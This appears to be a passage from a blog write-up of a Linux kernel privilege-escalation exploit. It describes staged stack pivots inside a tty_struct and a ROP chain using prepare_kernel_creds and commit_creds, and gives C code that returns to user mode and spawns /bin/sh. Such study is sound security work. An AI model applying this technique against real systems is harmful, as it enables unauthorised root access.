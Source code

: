 ![Pasted image 20230916004232](https://github.com/0xAriana/blog/assets/121199478/0ef20a08-e1c4-47a4-a6b5-294fe15f5ab1)

This will set `rsp` to offset 0x40 within the `tty_struct`.

This gadget is placed at offset 0x10 in the `tty_struct`, since this is where the stack relies after the stage 1:

![Pasted image 20230916010214](https://github.com/0xAriana/blog/assets/121199478/671f9bba-e62d-4339-a678-778d5034d05a)

### Stack pivot - stage 3
At this offset we can allow ourselves to write more then one gadget, possible all of them, but since this part of the structure is populated with data, I preferred to pivot again, this time, to the empty place at the end of the `tty_struct`.
This time, I used a single gadget, but with data succeeding it:

![Pasted image 20230916003325](https://github.com/0xAriana/blog/assets/121199478/843b9b02-4326-46df-9539-15b732bae6ca)

The data I placed is where I want to pivot to - the address of the end of the struct, can be seen here:

![Pasted image 20230916005334](https://github.com/0xAriana/blog/assets/121199478/cc0ea1af-2dec-401e-8452-aeba122002f2)

After this, `rsp` will point to offset 0x320 within the `tty_struct`.


## PE Rop and returning to user space
This part is pretty standard:
1. We call `prepare_kernel_creds` with null as an argument
2. Pass the result to `commit_creds` to get root privileges to the current task.
3. Call [swapgs_restore_regs_and_return_to_usermode](https://elixir.bootlin.com/linux/v5.10.7/source/arch/x86/entry/entry_64.S) with the return user space context ready on the stack: RIP, CS, EFLAGS, RSP, SS.

* At the beginning of main, I've set the context I want to return to in the function `setup_iretq_context`:
```c

unsigned long cs;
unsigned long ss;
unsigned long rip = (unsigned long) &execve_bin_bash;
unsigned long flags;
unsigned long rsp;

void execve_bin_bash() {
    char *argv[] = {"/bin/sh", NULL};
    char *envp[] = {NULL};
    execve("/bin/sh", argv, envp);
}

void setup_iretq_context() {
    asm volatile("mov %%cs, %0" : "=m" (cs));
    asm volatile("mov %%ss, %0" : "=m" (ss));
    asm volatile("pushfq; pop %0" : "=m" (flags));
    asm volatile("mov %%rsp, %0" : "=m" (rsp));
};
```
